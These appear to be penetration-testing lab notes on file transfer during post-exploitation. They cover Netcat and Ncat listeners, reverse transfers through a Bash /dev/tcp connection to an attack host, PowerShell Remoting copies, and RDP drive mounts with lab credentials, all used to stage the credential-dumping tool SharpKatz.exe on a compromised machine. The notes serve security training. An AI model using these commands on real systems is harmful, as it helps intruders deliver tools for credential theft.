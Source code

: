 
## Netcat

On target machine start nc listener

```
# Example using Original Netcat
nc -l -p 8000 > SharpKatz.exe
```

```
# Example using Ncat
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Sending to target machine from attack machine

```
# Example using Original Netcat
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```
# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat.

Attack machine

```
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Target machine

```
# Example using Original Netcat
nc 192.168.49.128 443 > SharpKatz.exe
```

```
# Example using Ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/.

Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

Attack Machine - Sending File as input to Netcat
```
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Target Machine - Connecting and Receiving file

```
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## Powershell Sessions

PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa.

We have a session as Administrator in DC01, the user has administrative rights on DATABASE01, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

### Confirm ports are open

```
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

### Create Session

```
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy file from local to DATABASE01

```
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

### Copy File from DATABASE01 to local

```
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

### Mount Linux folder using rdesktop

```
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

### Mount Linux folder using xfreerdp

```
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Then connect to \\\\tsclient\\linux on the RDP machine
